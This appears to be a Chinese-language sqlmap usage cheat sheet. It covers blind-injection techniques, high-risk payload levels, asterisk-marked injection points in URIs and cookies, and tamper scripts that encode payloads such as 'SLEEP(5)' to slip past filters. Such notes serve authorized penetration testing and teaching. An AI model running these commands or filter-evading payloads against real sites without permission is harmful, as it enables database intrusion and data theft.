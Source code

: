 - 将HTTP请求内容保存在request.txt文件中，从文件打开，指定使用布尔、时间盲注进行测试

```
sqlmap -r request.txt --batch --current-db --technique BT
```

- 使用最高级别的Payload测试，并且使用一些更具风险（可能影响网站）的Payload，开启线程最大，即10个线程进行测试

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --batch --current-db --level 5 --risk 3 --threads 10
```

- 枚举所有除了系统数据库之外的库名、表名、列名及其类型信息

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --schema --exclude-sysdbs --batch
```



## 0x01 加星号\*                           

当注入点位于URI本身内部时，会出现一些特殊情况，除非手动指向URI路径，否则sqlmap不会对URI路径执行任何自动测试。必须在命令行中添加型号（\*）来指定这些注入点。

例如：当使用Apache web服务器的mod_rewrite模块或其他类似的技术时，就特别有用。

```
sqlmap -u "http://www.target.com/param1/value1*/param2/value2/"
```

相当于指定value1处为注入点。

任意位置注入：

与URI注入点类似，星号（*）（注意：这里也支持Havij样式%INJECT %）也可以用来指向GET、POST或HTTP头中的任意注入点。注入点可以通过在带有选项 -u 的GET参数值、带有选项-数据的POST参数值、带有选项 -H 的HTTP头值、带有选项-头、用户代理、引用和/或cookie的HTTP头值中指定，或者在带有选项-r的文件中加载的HTTP请求的通用位置指定。

```
sqlmap -u "http://xxx.com/xxx.php" --cookie="param1=value1*;param2=value2"
```



## 0x02 常用tamper脚本

参考：[https://www.cnblogs.com/mark0/p/12349551.html](https://www.cnblogs.com/mark0/p/12349551.html)

tamper所在路径：sqlmap/tamper/*.py

#### 1. apostrophemask.py

- 适用数据库：ALL
- 作用：将引号替换为utf-8，用于过滤单引号
- 使用脚本前：`tamper("1 AND '1'='1")`
- 使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

#### 2. base64encode.py

- 适用数据库：ALL
- 作用：替换为base64编码
- 使用脚本前：`tamper("1' AND SLEEP(5)#")`
- 使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`
